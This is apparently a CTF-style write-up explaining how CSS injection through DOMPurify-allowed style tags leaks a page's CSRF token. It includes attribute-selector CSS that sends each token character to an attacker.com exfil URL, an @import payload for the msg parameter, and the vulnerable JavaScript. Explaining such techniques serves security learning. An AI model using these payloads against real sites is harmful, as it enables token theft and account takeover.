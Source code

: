
CSS injection token exfiltration technique relies on a feature of CSS called Attribute Selectors. Attribute selectors allow a developer to specify that a particular style should only apply to an element if an attribute of that element meets the condition indicated by the selector, it means we can set-up a `cssInjectionServerUrl` that performs the following logic:

```css
<style>
  head, meta[name=csrf-token] {
    display: block;
  }
input[name=csrf-token][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf-token][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
input[name=csrf-token][value^=c]{
    background-image: url(https://attacker.com/exfil/c);   
}
</style>
```
In this example we are telling to the browser that “if the CSRF token starts with an `a` then set the background-image to be the image found at `https://attacker.com/exfil/a`. Then we repeat this rule for every possible character.

```
head, meta[name=csrf-token] {
    display: block;
  }

```
This part is also very useful, we need this piece of code because the CSRF Token needs to be leaked from `<meta>` tag, `display: block;` is in charge to make HTML tags that are normally hidden to be rendered, in this way the css exploit can be applied to our `<meta>` tag too (because `<meta>` is inside the `<head>` tag, so without this last piece of code the CSS exploit is not going to apply on the csrf token).
We can't exfiltrate the CRSF Token from the `<input>` tag because it is hidden and it is also inside the `<div>` tag.

Actually we can inject some CSS inide the msg parameter that is reachable in the  route `/app.php#msg=`

After that our `cssInjectionServerUrl` has been set, we can insert the following code inside the`msg` parameter:
```css
<style>
          @import url('${cssInjectionServerUrl}/start?id=${id}&len=csrf-token-length')
</style>`
```
We can't perform XSS here because the `msg` parameter is filtered out by the last version of DomPurify ( as you can see from the code below), but `<style>` is not consider harmful and it’s allowed by default in DOMPurify.

```js
function showMessage(message, options) {
  const getTimeout = options.timeout || (() => 1000)
  const container = options.container || document.querySelector('body')

  const modal = document.createElement('div')
  modal.id = 'messageModal'
  modal.innerHTML = DOMPurify.sanitize(message)
  container.appendChild(modal)
  history.replaceState(null, null, ' ')

  setTimeout(() => {
    container.removeChild(modal)
  }, getTimeout())
```